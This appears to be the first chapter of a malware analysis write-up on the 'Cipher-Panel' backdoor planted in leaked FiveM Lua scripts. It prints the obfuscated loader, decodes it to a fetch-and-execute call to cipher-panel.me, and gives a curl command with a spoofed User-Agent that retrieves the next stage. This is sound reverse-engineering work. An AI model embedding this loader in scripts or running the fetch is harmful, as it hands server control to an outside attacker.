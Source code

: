 ## Chapter 1 (Payload)
This chapter covers the payload code used in the malicious code to hire dubbed Cipher-Panel.

### Introduction
The payload for this malicious software is provided to users who pay for access that in turn allows them to generate the payload code. Using this payload code they can then download FiveM scripts, modify them to include the payload code, and then upload them to popular FiveM script leaking websites and communities or even used by script developers and merchants to target specific servers.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```
It should be noted that the `random_char` array is unique to the user who created the payload via Cipher-Panel's website and thus is, __not__ something that is to be be used for the detection of this malicious software.

The code above is designed to look non-malicious by using field names that aren't normally associated with malicious code such as **random_char** and encoding characters with UTF-8 to prevent people from simply opening the script to check it's purpose.

The first stage to reversing this code is turning the `Enchanced_Tabs` array back into plain text by decoding the UTF-8 characters, followed by normalizing some of the function names and fields.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Normalized: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Output: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```diff
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
+ Enchanced_Tabs[10] = PerformHttpRequest;
+ Enchanced_Tabs[11] = assert;
Enchanced_Tabs[12] = server; (Junk Code)
+ Enchanced_Tabs[13] = load;
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

The `Enchanced_Tabs` array mainly contains junk functions and keywords to throw users off from the three highlighted functions that are used in the payload functions.

#### Final Mapped and Normalised Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

After the mapping and normalization of the code, we can see that the code continuously makes an HTTP request to the unique Cipher-Panel endpoint.

All endpoints provided by Cipher-Panel are all protected with [Cloudflare](https://www.cloudflare.com/) using their [page rules](https://www.cloudflare.com/en-gb/features-page-rules/) system, this prevents access via regular browsers and only allows access to requests using the `User-Agent` provided via FiveM's [PerformHttpRequest](https://docs.fivem.net/docs/scripting-reference/runtimes/lua/functions/PerformHttpRequest/) *(FXServer/PerformHttpRequest)*. We can bypass that limitation with a simple `curl`[^1] command, this outputs the code used in the next part of this malicious software and is covered in the next chapter.

[^1]: `curl https://cipher-panel.me/_i/i?to=l6Tr2 -A "FXServer/PerformHttpRequest"`

[Chapter 2 (Infection)](https://github.com/ericstolly/cipher/blob/main/chapters/chapter-2-infection.md)
